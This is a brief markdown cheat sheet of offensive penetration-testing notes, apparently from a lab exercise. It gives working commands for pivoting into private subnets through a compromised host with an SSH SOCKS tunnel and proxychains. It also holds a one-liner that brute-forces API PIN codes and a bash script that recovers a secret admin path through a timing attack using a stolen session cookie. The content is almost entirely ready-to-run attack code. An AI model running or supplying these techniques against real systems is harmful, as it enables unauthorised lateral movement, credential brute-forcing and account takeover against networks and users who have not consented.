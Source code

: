 # Pivoting

## If you've owned a box, how can you pivot to other machines in private subnets?
SOCKS Proxy
```
ssh weytechuser@files.wey-tech.com -D 9050 -f -N
```
Use proxychains to force any command we run locally to route all traffic through our SOCKS tunnel so that we can hit targets

Configure Firefox to run through the proxy. A good addon is SmartProxy and you can configure the SOCKS4 Protocol proxy using the localhost port set above.

## What's a way to brute-force attempt pins on an API?
```
$ ssh weytechuser@files.wey-tech.com 'for i in $(seq 1000 9999); do RESULT=$(curl http://10.4.4.80/api/confirm/abcd/$i 2>/dev/null); if [[ $RESULT == *"true"* ]]; then echo -e "\n$RESULT\nPincode: $i\n"; break; fi; done'
```

## Bash script for timeout attack of a 16 byte random path
```
COOKIE="Cookie: session=<PLACE YOUR COOKIE HERE>"
ADMINID=""
for num in $(seq 0 15 | tac); do
  ZZZs=$(eval "printf 'Z%.0s' {0..$num}")
  PADDING=${ZZZs::-1}
  for char in $(echo "abcdefghijklmnopqrstuvwxyz0123456789" | fold -w1); do  
    RES=$(timeout "$(($num + 1))" curl -s "http://10.4.4.80/api/list/files/1/$ADMINID$char$PADDING" -H "$COOKIE")
    if [ -n "$RES" ]; then
      ADMINID="$ADMINID$char"
      echo "Found another Character: $ADMINID"
      break
    fi
  done
done
```
